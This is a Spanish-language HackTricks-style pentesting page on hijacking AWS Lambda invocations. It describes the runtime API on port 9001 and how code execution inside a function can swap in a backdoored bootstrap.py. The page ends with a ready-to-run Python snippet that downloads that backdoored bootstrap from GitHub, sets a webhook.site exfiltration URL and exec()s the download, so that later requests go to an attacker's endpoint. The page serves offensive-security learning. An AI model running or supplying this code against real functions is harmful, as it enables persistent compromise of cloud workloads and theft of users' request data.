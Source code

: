 # AWS - Robar Solicitudes de Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Flujo de Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos puntos finales interesantes:
- **`/2018-06-01/runtime/invocation/next`** – obtener el siguiente evento de invocación
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del manejador para la invocación
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que obtiene invocaciones del proceso init y llama al código del usuario para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía al init la **respuesta**

Nota que bootstrap carga el código del usuario como un módulo, por lo que cualquier ejecución de código realizada por el código del usuario está ocurriendo en este proceso.

## Robando Solicitudes de Lambda

El objetivo de este ataque es hacer que el código del usuario ejecute un proceso **`bootstrap.py`** malicioso dentro del proceso **`bootstrap.py`** que maneja la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras que el bootstrap **legítimo** está **atrapado** ejecutando el malicioso, por lo que no pedirá solicitudes al proceso init.

Esta es una tarea simple de lograr ya que el código del usuario está siendo ejecutado por el legítimo proceso **`bootstrap.py`**. Así que el atacante podría:

- **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
- Se debe enviar una solicitud a **`/${invoke-id}/response`**
- El invoke-id se puede obtener de la pila del legítimo proceso **`bootstrap.py`** utilizando el módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [se propone aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como [se propone aquí](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Ejecutar un **`boostrap.py`** malicioso que manejará las siguientes invocaciones.
- Por razones de sigilo, es posible enviar los parámetros de las invocaciones de lambda a un C2 controlado por el atacante y luego manejar las solicitudes como de costumbre.
- Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación lambda actual.

### Pasos del Ataque

1. Encontrar una vulnerabilidad de **RCE**.
2. Generar un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Ejecutar** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para más información, consulta [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referencias

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
